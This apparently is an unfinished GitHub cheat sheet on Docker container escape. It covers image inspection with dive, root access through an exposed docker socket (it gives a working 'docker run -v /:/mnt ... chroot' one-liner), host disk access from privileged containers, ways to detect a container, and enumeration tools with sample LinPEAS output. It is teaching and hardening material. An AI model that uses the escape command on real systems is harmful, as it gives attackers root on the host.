 # Docker Escape Stylecheat

## 1. Docker image analysis

Imagine that we have download a image and we want to run it without any check.

<img src="./img/reverse_shell.png" alt="reverse_shell">

We can see an attacker can simply get a shell on your container.

[Dive](https://github.com/wagoodman/dive) is a tool for doing a reverse engineering of a Docker image. 

We need to download image before analysis, then take the image ID as argument for dive.

```
╰─➤  docker images                                                           
REPOSITORY                 TAG             IMAGE ID       CREATED         SIZE
mydockerimage              latest          00571c260cae   2 minutes ago   108MB


╰─➤  dive 00571c260cae
```

<img src="./img/dive.png" alt="dive">

### 1. Layers (red)
    This window shows the various layers and stages on the image, information such as the ID of the layer and any command executed in the container.

### 2. Image details (blue)
    Many information and details about the image such as size.

### 3. Current Layer Contents (green)
    All contents of the container's filesystem at the selected layer.

You can naviguate between windows using "Tab" and "Up" and "Down" for data.

<img src="./img/dive_malicious.png" alt="dive_malicious">

Take a malicious image for the example, here we can see at the 7th layer the command for the reverse shell. \
So don't forget to check all layers before running an image !

***

## 2. Docker Daemon Exposed 

### <u>First case : we are outside a container</u>

Imagine that a attacker have managed to gain a shell on the machine, but we have well (almost) configured the user right and he can't do anything.
But, if the daemon is exposed and the user have the docker group : 


```
hellodocker@ubuntu:~$ find / -name docker.sock 2>/dev/null
/run/docker.sock
hellodocker@ubuntu:~$ groups 
hellodocker docker
```

<img src="./img/privesc_outside.png">

This command essentially mounting the host "/" directory to the "/mnt" directory in a new container, chrooting and then connecting via a shell. A simple command that give a root access at the attacker. We can use any image you want, a local image or download an image if there is a internet connection.

<br>

### <u>Second case : we are inside a container</u>

The idea is the same as previously, if the user inside the container have a docker daemon exposed, we can escape the container.

> docker run -v /:/mnt --rm -it alpine chroot /mnt sh

And we have a shell on the host machine, we've breakout of the container.

### <u> Hardening </u> 

[How can I protect my container about that](./hardening.md)

***

## 3. Misconfigured Privileges and Capabilities

TODO 

## 3.1 I own Root

Well configured docker containers won't allow command like fdisk -l. However on missconfigured docker command where the flag --privileged is specified, it is possible to get the privileges to see the host drive.

<img src="./img/fdisk.png" alt="fdisk">

We can see /dev/sda5 who's the host partition.

<img src="./img/iownroot.png" alt="iownroot">

We can now read file from host 

## 4. Shared Namespaces

TODO

## 5. API Firewall Bypass 

TODO

## Bonus : How to determining if you are in a container

### <u>Method 1 : processes </u>

Container often have very little processes running, run a `ps faux` to see them.

<img src="./img/processes.png" alt="processes">

### <u>Method 2 : dockerenv </u>

Docker containers allow environnements variables provides by the host, using a **.dockerenv** file. \
You can find this file in **/**. This file is created even the host don't provide any env variable.

<img src="./img/dockerenv.png" alt="dockerenv">

### <u>Method 3 : cgroup </u>

Cgroups are used by containers such as Docker. Find them in **/proc/1/cgroup**.

<img src="./img/cgroup.png" alt="cgroup">



## Automatisation 

You can launch scripts to see if you'r vulnerable to docker escape or other misconfiguration.

- [Deepce](https://github.com/stealthcopter/deepce/)
  Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) 
  Local Enumeration for Privileges Escalation, with a dedicated part for docker containers.
  EX : 
```
═════════════════════════════════════════╣ Containers ╠══════════════════════════════════════════
[+] Is this a container? ........... docker
[+] Container related tools present
[+] Any running containers? ........ No
[+] Am I inside Docker group ....... No
[+] Looking and enumerating Docker Sockets
[+] Docker version ................. Not Found
[+] Vulnerable to CVE-2019-5736 .... Not Found
[+] Vulnerable to CVE-2019-13139 ... Not Found
[+] Rooless Docker? ................ No

[+] Container & breakout enumeration
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout
[+] Container ID ................... docker.escape
[+] Container Full ID .............. e061eb6346e7386a054548e1c5639f3742b35f9356937b946f2f5da8779aba4f
[+] Vulnerable to CVE-2019-5021 .. No

[+] Container Capabilities
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)

[+] Privilege Mode is disabled
```